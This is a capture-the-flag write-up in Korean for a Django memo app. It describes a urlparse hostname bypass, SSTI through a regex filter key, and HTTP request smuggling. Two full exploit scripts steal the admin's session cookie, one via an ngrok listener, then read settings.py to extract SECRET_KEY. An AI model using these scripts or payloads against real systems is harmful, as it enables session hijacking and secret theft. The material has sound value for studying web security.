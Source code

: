 # Yonsei Memo

## Vulnerability
### urlparse
yonsei_memo/common.py
```python
def check_url(url):
    o = urlparse(url)
    if o.scheme != 'http':
        return False
    if o.hostname != HOSTNAME:
        return False
    return True
```
+ urlparse에는 url에 @가 포함되어 있을 때 파싱 결과 hostname과 실제 hostname가 불일치할 수 있는 취약점이 있다.
```python
>>> urlparse('http://a.com\@b.com').hostname
'b.com'
```
+ 이를 이용하면 report를 통해 어드민 리퀘스트를 탈취할 수 있다.
> 어드민 리퀘스트에는 세션 정보(쿠키)가 포함되어 있으므로 어드민으로 로그인이 가능하다.
### ssti
yonsei_memo/common.py
```python
def render_template(template, context):
    page = temp_index.split('body_here')[0]
    page += template
    page += temp_index.split('body_here')[1]
    return HttpResponse(Template(page).render(Context(context)))
```
+ response를 만들때 render engine을 바로 사용하지 않고 문자열을 합치듯 템플릿을 만든 뒤 렌더링한다. 따라서 잠재적인 ssti 취약점이 존재한다.
admin/views.py
```python
    if request.method == 'POST':
        key = list(request.POST.keys())[0]
        filters = {key:request.POST[key]}
        msg = 'Searched result for '+request.POST[key]
        
    else:
        filters = {}
        msg = ''
    user_list = get_user_list(filters)
    if len(user_list) == 0:
        msg = 'No result.'

    return render_template(msg+temp_admin_userlist, {'user_list': user_list})
```
templates/userlist.html
```html
    <form method="post">
        <input name="name" type="text"/>
    </form>
```
+ /admin/users 에서 **클라이언트에게 key value를 받아** filter를 구성해 db의 user 테이블을 검색한 결과를 보여준다.
+ `msg+temp_admin_userlist`를 렌더링하는데, 검색 결과가 존재할 경우 `msg = 'Searched result for '+request.POST[key]` 가 된다.
+ user name에는 특수기호가 들어갈 수 없으므로 ssti가 불가능할 것 같지만 사실 가능하다.
+ 검색 filter의 key가 name으로 정해져 있는데, 클라이언트는 post data를 조작해 key를 임의로 조작할 수 있다.
+ django의 doc을 읽어보면 (https://docs.djangoproject.com/en/3.1/ref/models/querysets/#regex) filter로 정규식이 들어갈 수 있다. 컬럼명뒤에 `__regex`를 붙히는 것으로 가능하다.
> 즉 검색의 key로 `name__regex`를, value로 아무 계정의 이름+`|{{7*7}}`을 줌으로써 ssti가 가능해진다.

## Exploit Scenario
1. nc + ngrok 로 로컬 포트 리슨
2. urlparse 취약점 이용해 `ngrok public url + \@211.217.69.153`를 report
3. 어드민 쿠키를 얻어 어드민으로 로그인
4. `POST /admin/users ... name__regex=admin|{% include "yonsei_memo/settings.py" %}`

## Exploit Code
```python
import requests
import random
import time
from pyngrok import ngrok
import socket

host = '211.217.69.153'
port = 32009

def open_port(port):
    s = socket.socket()
    s.bind(("", port))
    s.listen(1)
    ht = ngrok.connect(port, "http")
    return ht.public_url, s

def get_response(s):
    s_r, a = s.accept()
    r = s_r.recv(1024)
    s_r.close()
    return r
    
if __name__=="__main__":
    url = 'http://'+host+':'+str(port)
    name = str(round(random.random()*100000))
    
    reg_form = {"username":name, "password":"hanch", "register":"Register"}
    res = requests.post(url+'/memo/login', data=reg_form, headers={'User-Agent':'loginer'})
    token = res.history[0].cookies['token']
    cookies = {'token':token}

    purl, s = open_port(4000)
    requests.post(url+'/memo/report', data={'url':purl+'\\@211.217.69.153'}, headers={'User-Agent':'reporter'}, cookies=cookies)

    response = get_response(s)
    s.close()
    admin_token = response.split(b'token=')[1].split(b'\r\n')[0].decode()
    print('admin token : '+admin_token)

    cookies = {'token':admin_token}
    injection = {'name__regex':'admin|{% include "yonsei_memo/settings.py" %}'}
    res = requests.post(url+'/admin/users', data=injection, headers={'User-Agent':'attacker'}, cookies=cookies)
    flag = res.text.split('SECRET_KEY = "')[1].split('"')[0]

    print(flag)
```

## HTTP smuggling
CL-TE 테스트를 하다보면 이 서버에 http smuggling 취약점이 존재함을 발견할 수 있다.
이를 이용하면 urlparse 취약점을 이용하지 않아도 어드민 세션 정보를 탈취할 수 있다.
### Exploit Code#2
```python
import requests
import random
from pwn import *

host = '211.217.69.153'
port = 32009

def convert(content):
    return (
        content
        .replace("\n", "\r\n")
        .encode("utf-8")
    )

def trigger_desync(token, i):
    
    content = """GET /memo/memos HTTP/1.1
Host: {host}
User-Agent: attacker
Content-Length: {length}
Transfer-Encoding: \x0bchunked
Connection: keep-alive
Cookie: token={token}

0

"""

    data = 'title=hack&content=admin_http_follow_by'
    payload = '''POST /memo/memos HTTP/1.1
Host: {host}
User-Agent: add on admin request
Content-Length: {length}
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Cookie: token={token}

{data}'''

    r = remote(host, port)
    payload = convert(payload.format(host=host, data=data, length=str(len(data)+i), token=token))
    content = convert(content.format(host=host, length=str(5+len(payload)), token=token))
    final = content+payload
    r.send(final)
    while True:
        try:
            response = r.recv()
            if b'HTTP/1.1 200 OK' in response:
                print('waiting for admin visit...')
        except EOFError:
            break
    r.close()

if __name__=="__main__":
    url = 'http://'+host+':'+str(port)
    name = str(round(random.random()*100000))

    reg_form = {"username":name, "password":"hanch", "register":"Register"}
    res = requests.post(url+'/memo/login', data=reg_form, headers={'User-Agent':'loginer'})
    token = res.history[0].cookies['token']
    cookies = {'token':token}

    i = 260
    while True:
        res = requests.post(url+'/memo/report', data={'url':url}, headers={'User-Agent':'reporter'}, cookies=cookies)
        trigger_desync(token, i)

        res = requests.get(url+'/memo/memos', cookies=cookies)
        cards = res.text.split('<div class="card">')
        last_card = cards[1]
        try:
            view_path = last_card.split('<a href="')[1].split('">')[0]
        except IndexError:
            continue
        res = requests.get(url+view_path, cookies=cookies)
        if 'admin_http_follow_by' not in res.text:
            continue
        admin_http = res.text.split('admin_http_follow_by')[1].split('</span>')[0]
        if 'admin' not in admin_http:
            print("that request is mine") # line 188
            i -= 1
            continue
        print(admin_http)
        if 'token=' in admin_http:
            steal = admin_http.split('token=')[1]
            if '\n' in admin_http:
                admin_token = steal.split('\r\n')[0]
                break
     
    print('admin token : '+admin_token)

    cookies = {'token':admin_token}
    injection = {'name__regex':'admin|{% include "yonsei_memo/settings.py" %}'}
    res = requests.post(url+'/admin/users', data=injection, headers={'User-Agent':'attacker'}, cookies=cookies)
    flag = res.text.split('SECRET_KEY = "')[1].split('"')[0]

    print(flag)

```